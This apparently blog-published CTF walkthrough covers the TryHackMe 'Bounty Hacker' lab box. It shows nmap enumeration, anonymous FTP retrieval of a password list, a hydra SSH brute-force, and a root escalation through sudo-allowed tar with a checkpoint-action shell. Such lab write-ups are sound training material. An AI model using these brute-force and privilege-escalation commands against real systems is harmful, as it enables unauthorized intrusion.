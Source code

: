 ```yaml
---
title: TryHackMe - Bounty Hacker Walkthrough
date: 2020-08-05
asciinema: true
categories:
  - "Write Up"
---
```


{{< figure src="/media/bounty-card.png"  title="Credits to Sevuhl" >}}

This challenge is a straightforward Linux box involving simple enumeration, credential bruteforcing and abusing user `sudo` privileges on an unsafe binary.

*Visit [TryHackMe](https://tryhackme.com) for more challenges*

---
# Initial reconnaissance

## Enumerating running services

Command run: `$ sudo nmap -sS -Pn 10.10.211.186 -oN nmap-syn.txt`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 22:51 EDT
Nmap scan report for 10.10.211.186
Host is up (0.39s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
We can see three open ports `21`, `22` and `80`. Let's perform full nmap scans of these ports:

Command run: `$ nmap -A -p21,22,80 10.10.211.186 -oN nmap-full.txt`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.10.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.52 seconds
```

## A quick look at the web service

{{< figure src="/media/bounty-webservice.png" >}}

## Enumerating FTP service

The FTP service allows anonymous logins, let's see what we can find there.

Command run: `$ ftp 10.10.211.186 21`

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ ftp 10.10.211.186 21
Connected to 10.10.211.186.
220 (vsFTPd 3.0.3)
Name (10.10.211.186:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>
```

We download the two text files to our host with the `get` command and read their content. The `task.txt` file contains the answer to Task#3

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

The `locks.txt` contains a set of what could be credentials for another service (hosted on web server, or perhaps SSH passwords).

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ cat locks.txt | head -n5
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
```

Task 4 hints us that the password is indeed for some SSH credentials. We just need a list of usernames to match. Based on the few information we can get out of the web service we can draft the following `potential-users.txt` list:

```
lin
vicious
ed
spike
faye
ein
edward
redeye
```

# Brute-forcing SSH

There are a few ways to go abount bruteforcing access to `ssh`, one commonly used tool to perform such tasks is `hydra` (https://github.com/vanhauser-thc/thc-hydra)

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ hydra -L potential-users.txt -P locks.txt ssh://10.10.21
1.186
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 23:30:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 208 login tries (l:8/p:26), ~13 tries per task
[DATA] attacking ssh://10.10.211.186:22/
[22][ssh] host: 10.10.211.186   login: lin   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 23:31:51
```

We found a valid SSH credential `lin:REDACTED`, this will answer Task 4.

# Accessing the machine

Command run: `$ ssh lin@10.10.211.186`

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7 17:06 .
drwxr-xr-x 19 lin lin 4096 Jun  7 22:17 ..
-rw-rw-r--  1 lin lin   21 Jun  7 17:06 user.txt
```

## Escalating to root

One of the first things to check when looking for a privilege escalation vector on Linux is to verify what commands can the current user run with elevated privileges. This is done with the following command: `$ sudo -l`. Note that you will require the current user's `sudo` password to be able to run the command.

```
lin@bountyhacker:/home$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

> NAME
     tar — The GNU version of the tar archiving utility

If `tar` runs in privileged context, it may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```
lin@bountyhacker:/home$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# ls -la /root   
total 40
drwx------  5 root root 4096 Jun  7 21:31 .
drwxr-xr-x 24 root root 4096 Jun  6 06:36 ..
-rw-------  1 root root 2694 Jun  7 22:25 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7 15:00 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7 17:16 root.txt
-rw-r--r--  1 root root   66 Jun  7 21:13 .selected_editor
drwx------  2 root root 4096 Jun  7 19:29 .ssh
```

---

Hope you enjoyed the write-up, thank you for reading 👏

